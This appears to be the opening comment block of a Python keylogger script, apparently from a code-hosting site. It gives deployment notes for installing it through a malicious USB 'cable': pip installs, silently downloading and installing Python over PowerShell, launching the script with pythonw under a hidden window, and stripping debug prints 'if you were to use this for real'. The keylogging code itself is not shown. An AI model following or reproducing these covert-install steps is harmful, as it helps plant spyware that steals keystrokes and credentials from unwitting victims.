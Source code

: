 Notes

#### install via cable

#pip install pynput

#pip install pywin32

#pip install requests

#pip install easygui

#run powershell >  pythonw "C:\Users\mrgig\Desktop\OMG CABLE STUFF\python keylogger test.py"

#powershell -WindowStyle Hidden

# --------------Install python via powershell---------------
#[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
#wget "https://www.python.org/ftp/python/3.8.0/python-3.8.0.exe" -outfile "python-3.8.0.exe"
#.\python-3.8.0.exe /quiet InstallAllUsers=0 PrependPath=1 Include_test=0

# python keylogging program

##You will need to comment out the prints and exception prints on code if you were to use this for real, as its testing
##i have prints on here that will tell you and let you know what part of the program is going at the time and that it is
##working

#Youtube channel of original creator - https://bit.ly/2U58Lt9
#modified by me
